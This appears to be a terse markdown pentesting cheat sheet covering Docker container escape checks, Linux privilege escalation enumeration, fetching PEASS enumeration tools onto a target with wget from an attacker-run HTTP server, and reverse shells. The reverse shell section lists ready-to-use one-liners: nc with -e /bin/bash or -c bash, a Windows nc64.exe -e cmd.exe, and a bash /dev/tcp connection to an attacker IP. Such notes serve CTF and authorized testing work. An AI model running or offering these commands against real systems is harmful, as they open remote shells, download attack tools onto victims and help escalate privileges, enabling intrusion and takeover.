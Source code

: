 ## Docker Escape
Download (github) CDK_escape_container  
scp to host

whithout CDK:
```
ls /dev/sd*
capsh --print (capabilities)
find / -name "docker.sock" 2>/dev/null 
```

## Priv. Escalation
### Basics
Check
`whoami`, `groups`, `uname -a` (linux version, e.g. Dirty CoW)

### Check for open ports
Check for mysql or similar, run as root
`netstat -antup | grep "LISTENING"`

### Check for SUID
`find / -perm -u=s -type f 2>/dev/null` 

### PEASS
/usr/share/peass-ng/

Ex: dl from local http server

```
cd /usr/share/peass-ng/[linux/windows]
python -m http.server 80
(remote) wget <ip>/winPEASx64.exe -outfile <outfile>
(remote) wget <ip>/linpeas.sh
```
## Reverse shell

### Local
`nc -lnvp <port>`

### NC
- `nc <ip> <port> -e /bin/bash`
- `nc -c bash <ip> <port>`
#### Copy NC (win)
`nc64.exe`
- Copy to remote
- (remote) `cd ...; ./nc64.exe -e cmd.exe <my_ip> 443`

### No NC
`bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
